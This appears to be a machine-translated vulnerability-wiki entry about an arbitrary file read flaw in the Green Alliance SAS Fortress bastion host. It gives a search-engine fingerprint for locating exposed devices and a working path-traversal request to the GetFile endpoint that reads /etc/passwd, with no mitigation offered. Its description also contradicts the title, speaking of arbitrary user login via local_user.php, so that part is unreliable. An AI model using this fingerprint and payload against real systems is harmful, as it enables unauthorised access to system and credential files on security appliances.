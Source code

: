 # Green Alliance SAS Fortress GetFile arbitrary file reading vulnerability

## Vulnerability Description

Green Alliance Fortress has a vulnerability to log in any user. The attacker uses the vulnerability to include www/local_user.php to realize any user login.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Green League SAS Fortress</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="'/needUsbkey.php?username='"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1687843929584-e793a136-93ec-4b19-8ee9-5738c91681e8.png)

The vulnerability exists in the file GetFileController.php file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691645164688-78430d67-4ce1-4d26-8854-5d330b034c5e.png)

Verify POC

```plain
/webconf/GetFile/index?path=../../../../../../../../../../../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1688361725621-1d85a406-2f2c-492a-8c0f-5d54ea282f2a.png)